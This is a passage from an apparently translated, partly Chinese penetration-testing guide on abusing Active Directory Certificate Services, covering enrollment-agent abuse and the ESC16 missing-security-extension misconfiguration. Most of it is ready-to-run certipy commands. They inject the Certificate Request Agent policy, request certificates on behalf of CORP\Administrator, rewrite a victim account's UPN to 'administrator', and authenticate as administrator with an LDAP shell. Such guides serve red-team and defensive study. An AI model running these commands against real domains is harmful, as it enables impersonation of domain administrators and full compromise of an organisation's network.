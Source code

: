 **步骤 2：使用获得的证书通过 Schannel (LDAPS) 进行身份验证。**
```bash
certipy auth -pfx 'administrator.pfx' -dc-ip '10.0.0.100' -ldap-shell
```
#### Scenario B: PKINIT/Kerberos Impersonation via Enrollment Agent Abuse

**Step 1: Request a certificate from a V1 template (with "Enrollee supplies subject"), injecting "Certificate Request Agent" Application Policy.** 该证书是为了攻击者 (`attacker@corp.local`) 成为注册代理。这里没有为攻击者自己的身份指定 UPN，因为目标是代理能力。
```bash
certipy req \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
-ca 'CORP-CA' -template 'WebServer' \
-application-policies 'Certificate Request Agent'
```
- `-application-policies 'Certificate Request Agent'`: 注入 OID `1.3.6.1.4.1.311.20.2.1`。

**步骤 2：使用“代理”证书代表目标特权用户请求证书。** 这是一个类似 ESC3 的步骤，使用步骤 1 中的证书作为代理证书。
```bash
certipy req \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
-ca 'CORP-CA' -template 'User' \
-pfx 'attacker.pfx' -on-behalf-of 'CORP\Administrator'
```
**步骤 3：使用“代表”证书以特权用户身份进行身份验证。**
```bash
certipy auth -pfx 'administrator.pfx' -dc-ip '10.0.0.100'
```
## Security Extension Disabled on CA (Globally)-ESC16

### Explanation

**ESC16 (通过缺失的 szOID_NTDS_CA_SECURITY_EXT 扩展提升权限)** 指的是这样一种情况：如果 AD CS 的配置不强制在所有证书中包含 **szOID_NTDS_CA_SECURITY_EXT** 扩展，攻击者可以利用这一点：

1. 请求一个 **没有 SID 绑定** 的证书。

2. 使用该证书 **作为任何账户进行身份验证**，例如冒充高权限账户（例如，域管理员）。

您还可以参考这篇文章以了解更多详细原理：https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6

### Abuse

以下内容参考了 [此链接](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally)，点击查看更详细的使用方法。

要识别 Active Directory 证书服务 (AD CS) 环境是否易受 **ESC16** 攻击
```bash
certipy find -u 'attacker@corp.local' -p '' -dc-ip 10.0.0.100 -stdout -vulnerable
```
**步骤 1：读取受害者账户的初始 UPN（可选 - 用于恢复）。**
```bash
certipy account \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -user 'victim' \
read
```
**步骤 2：将受害者帐户的 UPN 更新为目标管理员的 `sAMAccountName`。**
```bash
certipy account \
-u 'attacker@corp.local' -p 'Passw0rd!' \
-dc-ip '10.0.0.100' -upn 'administrator' \
-user 'victim' update
```